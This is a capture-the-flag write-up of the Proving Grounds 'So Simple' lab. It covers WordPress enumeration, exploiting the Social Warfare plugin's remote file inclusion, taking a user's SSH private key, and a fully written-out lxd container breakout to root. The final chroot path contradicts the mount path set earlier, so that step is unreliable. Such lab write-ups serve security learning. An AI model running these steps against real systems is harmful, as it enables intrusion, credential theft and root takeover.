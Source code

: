* * *
 ### LAB: SO SIMPLE
 ### PLATFORM: PROVING GROUNDS
* * *

- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/583ce09b-3d2e-469c-8439-628f7c7c3030)

- FFuf spotted a wordpress directory    


- Scanning with `wpscan --url <url>` for information about the wordpress site and a particular plugin caught my attention which is the `social warfare wp plugin`

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37b131e1-0088-4bc5-bb3e-5ada1bbeae4f) 
  
- `Social warfare 3.5.0` has an unauthenticated remote code execution flaw via Remote File Inclusion.I wrote an exploit for it

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4bec41f2-29fa-408b-ae90-a2693dfef8bd)
  
- Now we have a stabilied shell

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d19b707b-33d6-416d-98de-a1ba6822de1f)  

### Road to PRIVESC 

- One of the user Max has a private key in his `.ssh` directory

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/63442927-533b-4cb6-b500-e2c243f89549)

- We can send the file with python http.server to our machine, change permissions with `chmod 600 <id_rsa>` and ssh to max's account

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cfb16a3d-6959-4588-8fdd-de9a3a2c6afe)
  

### Privilege escalation with lxd user

- I ran `id` and discovered that his account is part of the user group
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/daa34c20-99a8-424c-a5f4-25111ffdb8b8) 
  

- I ran this bash one-liner `cat /etc/passwd | grep "lxd"` to check if lxd is a user

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd539238-3616-42ca-ab70-4cdb8f471882)
  

- I checked if lxd has a running process with `ps -ef | grep -i "lxd\|lxc"`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cabd4c6b-d5f4-47ff-8a40-99b855d37f38)   

- I used this commands to build an lxd image as root on the host machine

      git clone https://github.com/saghul/lxd-alpine-builder.git
      cd lxd-alpine-builder
      ./build-alpine

- Use a directory like `/dev/shm` or `/tmp` to receive the alpine image
- Set up a python http server and send the recent image
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d54e4a2-233d-4cfe-b4bd-fce90a703b06)
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4ea75f7d-8504-43fa-a3dd-801f02bc7236)

- Receive it on `/tmp/` to initialize the image

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b4dac9c1-aef5-4e62-aa18-43286b897811)

- Create a storage pool with `lxd init`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/23511f48-5d10-481d-aa8d-f120e604ea71)

- Import the image with this command

       lxc image import alpine-v3.16-x86_64-20221112_0508.tar.gz --alias alpine

- List images with

      lxc image list

- Use the commands below to initialize the images in /tmp 

      lxc init alpine juggernaut -c security.privileged=true
      lxc config device add juggernaut gimmeroot disk source=/ path=/mnt/root recursive=true
      lxc start juggernaut
      lxc list

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c47dde3e-73c5-4e02-a940-1630f4f613a4)

 - To execute the container use `lxc exec juggernaut sh`
 - Breakout with `chroot /root/mnt`,voila!!!, root accesss

   ![Uploading image.png…]()


  
  

  
